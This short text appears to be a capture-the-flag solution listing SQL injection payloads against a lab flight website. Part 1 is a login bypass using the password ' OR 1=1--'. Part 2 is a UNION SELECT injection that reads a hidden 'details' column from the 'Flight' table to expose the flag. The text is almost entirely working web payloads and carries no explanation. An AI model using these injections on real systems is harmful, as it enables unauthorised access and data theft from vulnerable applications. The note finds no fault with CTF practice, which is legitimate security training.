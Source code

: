 Part 1: username: `admin` password: `' OR 1=1--`\
Part 2: `' UNION SELECT details as flight_number, NULL, NULL FROM "Flight"-- `\
flag is now the last entry flight_number column of the table on the website.
